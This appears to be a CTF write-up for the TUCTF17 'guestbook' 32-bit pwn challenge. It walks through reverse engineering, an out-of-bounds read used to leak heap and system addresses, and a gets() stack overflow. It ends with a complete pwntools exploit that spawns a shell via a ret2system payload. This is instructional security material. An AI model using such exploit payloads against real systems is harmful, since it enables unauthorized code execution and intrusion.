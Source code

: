 ```yaml
---
layout: post
title: TUCTF17 PWN 250
tags: [ctf, pwn, write-up, tuctf17, infoleak, ROP]
---
```


### Challenge: [guestbook](../ctfs/tuctf17/pwn/guestbook/guestbook)
(**PS**: *libc was provided for this challenge*)

### Reversing
Let's start with basic analysis of given binary
```bash
$ file ./guestbook
guestbook: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc73592d4897267cd1097b0541dc571d051a7ca0, not stripped
$ checksec ./guestbook
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So we have PIE and NX enabled, which in most scenarios require combination of information leak and ROP (Return Oriented Programming). I quickly fire up IDA for further analysis.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+0h] [bp-98h]@16
  int v5; // [sp+64h] [bp-34h]@11
  int v6; // [sp+68h] [bp-30h]@7
  char *dest[4]; // [sp+6Ch] [bp-2Ch]@2
  char v8; // [sp+7Fh] [bp-19h]@5
  int (**v9)(const char *); // [sp+80h] [bp-18h]@4
  char **v10; // [sp+84h] [bp-14h]@4
  char *v11; // [sp+88h] [bp-10h]@2
  char v12; // [sp+8Fh] [bp-9h]@4
  int i; // [sp+90h] [bp-8h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("Please setup your guest book:");
  for ( i = 0; i <= 3; ++i )
  {
    printf("Name for guest: #%d\n>>>", i);
    v11 = (char *)malloc(0xFu);
    __isoc99_scanf("%15s", v11);
    v11[14] = 0;
    dest[i] = v11;
  }
  v10 = dest;
  v9 = &system;
  v12 = 1;
  while ( v12 )
  {
    do
      v8 = getchar();
    while ( v8 != 10 && v8 != -1 );
    puts("---------------------------");
    puts("1: View name");
    puts("2: Change name");
    puts("3. Quit");
    printf(">>");
    v6 = 0;
    __isoc99_scanf("%d", &v6);
    switch ( v6 )
    {
      case 2:
        printf("Which entry do you want to change?\n>>>");
        v5 = -1;
        __isoc99_scanf("%d", &v5);
        if ( v5 >= 0 )
        {
          printf("Enter the name of the new guest.\n>>>");
          do
            v8 = getchar();
          while ( v8 != 10 && v8 != -1 );
          gets(&s);
          strcpy(dest[v5], &s);
        }
        else
        {
          puts("Enter a valid number");
        }
        break;
      case 3:
        v12 = 0;
        break;
      case 1:
        readName((int)dest);
        break;
      default:
        puts("Not a valid option. Try again");
        break;
    }
  }
  return 0;
}

int __cdecl readName(int a1)
{
  int result; // eax@2
  int v2; // [sp+0h] [bp-8h]@1

  printf("Which entry do you want to view?\n>>>");
  v2 = -1;
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0 )
    result = puts(*(const char **)(4 * v2 + a1));
  else
    result = puts("Enter a valid number");
  return result;
}
```
Above is the decompiled pseudo code generated by IDA hex-rays plug-in. Here as the code suggests, binary takes input for four guests and assigns each a numerical entry (eg #1). After this binary gives out a menu with three options, we can either choose to view name in a guest entry or change name in a guest entry or simply select `quit` option which return the `main`. There is a interesting block of code that is spotted instantly, `Change name` section uses `gets` function to take input on the stack which can allow us to overwrite return address. But where to return to? Meaning we still have to bypass PIE by getting an info leak. To get that, there is a user-defined function `readName` in `View name` section. This function takes array of string `dest` which is a stack variable for `main` function, as argument and asks user for the entry of `dest` to be printed on console. Now here lies the second vulnerability. Entry integer value doesn't have a max value check in place. So we can use this to leak stuff on the stack. Now lets see if there is anything interesting on stack.

### Exploitation

```bash
gdb-peda$ stack 500
...
0112| 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0116| 0xffffd230 --> 0x56558428 --> 0x42 ('B')
0120| 0xffffd234 --> 0x56558440 --> 0x43 ('C')
0124| 0xffffd238 --> 0x56558458 --> 0x44 ('D')
0128| 0xffffd23c --> 0xa5559f1
0132| 0xffffd240 --> 0xf7e2cfa0 (<system>:	sub    esp,0xc)
0136| 0xffffd244 --> 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0140| 0xffffd248 --> 0x56558458 --> 0x44 ('D')
0144| 0xffffd24c --> 0x1000000
0148| 0xffffd250 --> 0x4
0152| 0xffffd254 --> 0x0
0156| 0xffffd258 --> 0x0
0160| 0xffffd25c --> 0xf7e09456 (<__libc_start_main+246>:	add    esp,0x10)
...
```  
Above is the stack view taken from `gdb-peda`. [0x56558008, 0x56558428, 0x56558440, 0x56558458] is what `dest` looks like. Buf if we request for 6 index in `dest`, 0xffffd22c address will be printed as a string which will in turn leak out heap address `0x56558008` and system address `0xf7e2cfa0`. After getting this leak we can craft our payload for stack based buffer overflow in `Change name` section.
Final buffer overflow payload will be (custom values are added in between *eip offset buffer* due to `strcpy` call just after the `gets` call)
`'/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n"`
Here `heap_addr`*4 has been added to overwrite `dest` variable's array elements. With this in the next `strcpy` call, `/bin/sh` gets written on the `heap_addr` providing us argument for `system` ROP chain.
Below is the final exploit script
```python
from pwn import *

def ch_name(index, name):
    r.recvuntil(">>")
    r.sendline("2")
    r.recvuntil(">>>")
    r.sendline(str(index))
    #r.interactive()
    r.recvuntil(">>>")
    r.sendline(name)

def vw_name(index):
    r.recvuntil(">>")
    r.sendline("1")
    r.recvuntil(">>>")
    r.sendline(str(index))

r = process("./guestbook")

# providing guest names
for i in range(4):
    r.recvuntil(">>>")
    r.sendline(chr(0x41 + i)*4)

# leak stack address
vw_name(6)
leak = r.recv(24)
heap_addr = u32(leak[0:4])
log.info("heap address: 0x{:x}".format(heap_addr))
system_addr = u32(leak[20:24])
log.info("system address: 0x{:x}".format(system_addr))
# overwriting return address
ch_name(0, '/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n")
#gdb.attach(r)
# triggering shell
r.sendline("3")
r.recvuntil(">>")
r.interactive()
```
Exploit script [link](../ctfs/tuctf17/pwn/guestbook/sploit.py)

